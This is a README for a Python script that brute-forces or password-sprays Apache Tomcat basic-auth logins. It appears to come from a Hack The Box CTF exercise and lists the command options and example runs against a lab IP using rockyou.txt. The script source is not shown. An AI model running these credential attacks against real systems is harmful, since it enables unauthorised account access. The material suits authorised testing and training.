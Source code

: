 # TomcatLoginBruteForce
Brute force Tomcat login basic authorization.
Used in the HTB CTF machine 'Sunday'.

## Usage

```
usage: tomcat_login_brute_force.py [-h] [-P PORT] [-t THREADS] [-u USERNAME] [-p PASSWORD] [-s] wordlist url

Apache tomcat login brute force

positional arguments:
  wordlist              wordlist file
  url                   url/ip of the target

options:
  -h, --help            show this help message and exit
  -P PORT, --port PORT  port tomcat is running on. (default: 8080)
  -t THREADS, --threads THREADS
                        number of threads to use. (default: 16)
  -u USERNAME, --username USERNAME
                        username to use for brute forcing. (default: admin)
  -p PASSWORD, --password PASSWORD
                        password used for spray. (default: password123)
  -s, --spray           Use option to password spray against usernames. (default: false)
```

## Examples

### Brute Force

```
python3 tomcat_login_brute_force.py rockyou.txt 10.129.174.191
```

```
python3 tomcat_login_brute_force.py -u tomcat rockyou.txt 10.129.174.191
```

### Password Spray

```
python3 tomcat_login_brute_force.py -s names.txt 10.129.174.191
```

```
python3 tomcat_login_brute_force.py -s -p Summer2024 names.txt 10.129.174.191
```

